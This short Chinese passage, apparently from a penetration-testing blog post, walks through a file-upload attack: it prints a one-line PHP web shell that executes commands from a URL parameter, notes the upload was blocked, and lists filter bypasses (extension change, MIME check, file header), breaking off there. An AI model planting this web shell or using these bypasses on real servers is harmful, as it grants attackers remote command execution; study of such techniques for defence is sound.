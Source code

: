 

上传一句话

```
<?php $var=shell_exec($_GET['cmd']); echo $var ?>
```
![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/2eW4rvh6SuZHIOWR_P9sq61lACRnKwx9CjG-nRZ0Oto.png?raw=true)

没上传上去，不允许的类型，需要绕过限制

绕过方法：

```
更改后缀
mime检测
文件头
```
mime检测绕过
